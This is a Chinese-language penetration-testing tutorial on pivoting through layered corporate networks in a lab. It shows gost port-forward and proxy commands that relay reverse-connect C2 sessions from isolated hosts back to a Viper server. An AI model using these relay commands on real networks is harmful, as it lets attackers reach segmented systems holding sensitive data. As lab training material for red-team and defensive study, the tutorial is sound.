


# 多级内网渗透(gost&viper)

## 什么是多级内网
标题中所说的多级内网,常见于各种大型企业.举个例子,如下图


A网中一般是企业的DMZ区,里面有对外的web服务器,dns服务器等.

B网中一般是企业内网的服务器区,里面有域控服务器,内网OA等.

C网中一般是企业红区,里面有敏感信息存储的数据库,或者各种关键业务服务器.(比如医院的HIS,工业企业的工业控制器等)

这种网络中,A网可以连接互联网,B网可以连接A网和C网但是无法连接互联网,C网只能连接B网.


## Viper与gost结合渗透多级内网
实验环境网络配置如下:


+ 上线192.168.146.1



+ 在192.168.146.1上使用gost启动一个端口转发,把192.168.146.1:2000的流量转发到192.168.146.130:2000

```plain
gost.exe -L=tcp://:2000/192.168.146.130:2000
```


+ 146.11执行回连到146.1:2000的payload,146.11上线(可以看到是通过146.1回连的)


+ 上线146.12比较复杂,首先在146.1:8080上用gost启动一个代理

```plain
gost.exe -L :8080
```



+ 然后在146.11上启动端口转发,流量经过146.1:8080这个代理

```plain
gost.exe -L=tcp://:2000/192.168.146.130:2000 -F 192.168.146.1:8080
```


+ 146.12执行回连到146.11:2000的payload,146.12上线(可以看到146.12是通过146.1回连的)


+ 146.12的payload连接146.11的2000端口后,146.11的gost会把流量加上代理头,然后发送到146.1:8080这个代理上,146.1:8080解析代理头,最终将流量发送到146.130:2000
